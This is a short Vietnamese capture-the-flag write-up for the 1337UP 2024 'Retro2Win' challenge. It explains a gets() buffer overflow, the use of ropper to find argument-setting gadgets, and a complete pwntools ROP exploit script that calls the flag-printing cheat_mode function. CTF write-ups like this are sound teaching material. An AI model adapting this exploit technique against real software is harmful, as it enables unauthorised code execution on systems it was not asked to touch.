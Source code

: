 # [1337UP-2024] Retro2Win
<p>Chương trình đưa ra 4 lựa chọn: 1, 2, 3 và 1337.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post6/image-1.png)

<p>Đầu tiên, ta sẽ xem hàm enter_cheatcode sau khi chọn 1337. Dòng 6, sử dụng hàm gets để đọc dữ liệu vào v1 -> Buffer overflow. Dòng 7, hàm printf leak ra chuỗi tại địa chỉ v1.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post6/image.png)

<p>Quan sát bảng Functions, ta có hàm cheat_mode in ra nội dung flag nếu giá trị tham số thứ 1 và 2 thỏa điều kiện.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post6/image-2.png)

<p>Sử dụng công cụ ropper lấy hai gadgets để set giá trị cho hai tham số. Trong gadget thứ 2, có lệnh pop r15 ở giữa nên cần padding thêm 8 byte sau khi lấy 8 byte ở rsp đem vào rsi.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post6/image-3.png)

<p>Script exploit:</p>

```
from pwn import *

p = process('./retro2win')
elf = ELF('./retro2win')

p.sendlineafter(b'Select an option:', b'1337')

pop_rdi = p64(0x00000000004009b3)
pop_rsi = p64(0x00000000004009b1)
cheat_mode_addr = p64(elf.sym['cheat_mode'])

payload = b'a'*24 
payload += pop_rdi + p64(0x2323232323232323)
payload += pop_rsi + p64(0x4242424242424242)
payload += b'b' * 8
payload += cheat_mode_addr

p.sendlineafter(b'Enter your cheatcode:', payload)

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post6/image-5.png)